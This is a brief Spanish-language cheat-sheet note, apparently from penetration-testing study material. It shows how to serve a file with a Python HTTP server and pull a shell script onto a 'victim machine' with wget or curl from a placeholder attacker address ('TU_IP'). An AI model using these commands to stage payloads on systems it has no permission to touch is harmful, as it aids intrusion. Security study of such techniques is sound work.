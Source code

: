 # wget
Se levanta un **servidor HTTP**:
	`python3 -m http.server 8000`
Luego, desde la máquina víctima (remota), descargas el archivo con:
	`wget http://TU_IP:8000/archivo.sh`
o si no tiene `wget`:
	`curl http://TU_IP:8000/archivo.sh -o archivo.sh`


